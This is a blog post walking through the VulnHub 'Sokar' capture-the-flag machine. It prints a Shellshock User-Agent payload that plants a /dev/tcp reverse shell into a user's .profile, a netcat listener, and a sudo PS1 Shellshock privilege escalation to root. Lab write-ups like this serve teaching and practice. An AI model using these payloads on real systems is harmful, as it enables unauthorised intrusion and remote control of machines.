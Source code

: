 ```yaml
---
layout: blog_item
title:  "Sokar - Walkthrough"
date:   2015-02-23 14:00:10
author: Arr0way
description: 'Sokar - Walkthrough Guide'
categories: [walkthroughs]
tags:
- CTF
---
```



<div class="coffee-rating">
<table>
      <tbody>
        <tr>
           <td>
               <p><code>Coffee Difficulty Rating:</code></p>
           </td>
           <td>
               <p><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i><i class="fa fa-coffee"></i></p>
           </td>
        </tr>
      </tbody>
</table>
</div>

* list element with functor item
{:toc}

## Description

Sokar was a vulnhub competition, unfortunately I did not have enough free time to compete.

**Author:** @_RastaMouse

**Download:** [VulnHub](https://www.vulnhub.com)


## Enumeration

### Port Scanning

{% highlight bash %}

nmap -v -p 1-65535 -sV -O -sT 192.168.30.148

{% endhighlight %}


### Service Enumeration

<div class="mobile-side-scroller">
<table>
  <thead>
    <tr>
      <th>Port</th>
      <th>Service</th>
      <th>Version Detection</th>
    </tr>
  </thead>
      <tbody>
        <tr>
           <td>
               <pc><p><code>TCP: 591</code></p></pc>
           </td>
           <td>
               <pc><p>HTTP</p></pc>
           </td>
           <td>
               <pc><p>Apache httpd 2.2.15 ((CentOS))</p></pc>
           </td>
        </tr>
        </tbody>

</table>
</div>

### HTTP Enumeration

Inspection of the Web Application revealed <code>/cgi-bin/cat</code> which indicated it could be vulnerable to shellshock.

### Shellshock

The Shellshock exploit was used to execute remote commands on the target system, however a reverse shell or bind shell were not possible due to restrictive ingress and egress firewall rules. This made for a painful local enumeration of the system via **Burp Suite**.  

#### Identify Current User

![Shellshock ID](/img/blog/sokar/shellshock-id.png)

#### Shellshock home dir perms

![Shellshock home dir](/img/blog/sokar/shellshock-home-dirs.png)

#### Shellshock files owned by user bynarr  

![Shellshock find command](/img/blog/sokar/shellshock-find.png)

The file <code>/tmp/stats</code> appeared to get updated every few minutes, indicating a cronjob *could* be running.

#### Shellshock mail spool readable

![Shellshock mail](/img/blog/sokar/shellshock-mail.png)

The above disclosed <code>bynarrs</code> passwords and the outbound port <code>51242</code> rule for the user.

## Reverse Shell

The following shellshock payload was sent using Burp Suite:

{% highlight bash %}
User-Agent: () { :;};echo;/bin/echo '/bin/bash -i >& /dev/tcp/192.168.221.139/51242 0>&1 ' > /home/bynarr/.profile;
{% endhighlight %}

The cronjob called the .profile file and execute the file contents.

A reverse shell was successfully spawned as the user <code>bynarr</code>

{% highlight bash %}
[root:~/Downloads]# nc.traditional -lp 51242 -vvvv
listening on [any] 51242 ...
192.168.221.148: inverse host lookup failed: Unknown host
connect to [192.168.221.139] from (UNKNOWN) [192.168.221.148] 59533
bash: no job control in this shell
{% endhighlight %}


## Local Enumeration

The following disclosed several bash environment variables were permitted to run as the user <code>bynarr</code> with sudo permissions.

{% highlight bash %}
[bynarr@sokar ~]$ sudo -l
sudo -l
Matching Defaults entries for bynarr on this host:
    !requiretty, visiblepw, always_set_home, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE INPUTRC KDEDIR LS_COLORS", env_keep+="MAIL PS1
    PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE
    LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL
    LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User bynarr may run the following commands on this host:
    (ALL) NOPASSWD: /home/bynarr/lime

{% endhighlight %}

## Local Privilege Escalation

The following shellshock payload was crafted to successfully escalate permissions to root:

{% highlight bash %}
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
{% endhighlight %}

## Root Flag

{% highlight bash %}
[bynarr@sokar tmp]$ sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sudo PS1="() { :;} ;  /bin/sh" /home/bynarr/lime
sh-4.1# ls -la /home/bynarr/lime
ls -la /home/bynarr/lime
-rwxr-xr-x 1 root root 368 Jan 27  2015 /home/bynarr/lime
sh-4.1# cat /root/flag
cat /root/flag
                0   0
                |   |
            ____|___|____
         0  |~ ~ ~ ~ ~ ~|   0
         |  |   Happy   |   |
      ___|__|___________|___|__
      |/\/\/\/\/\/\/\/\/\/\/\/|
  0   |    B i r t h d a y    |   0
  |   |/\/\/\/\/\/\/\/\/\/\/\/|   |
 _|___|_______________________|___|__
|/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/\/|
|                                   |
|     V  u  l  n  H  u  b   ! !     |
| ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ ~ |
|___________________________________|

=====================================
| Congratulations on beating Sokar! |
|                                   |
|  Massive shoutout to g0tmi1k and  |
| the entire community which makes  |
|         VulnHub possible!         |
|                                   |
|    rasta_mouse (@_RastaMouse)     |
=====================================
{% endhighlight %}

Thanks for the VM :)
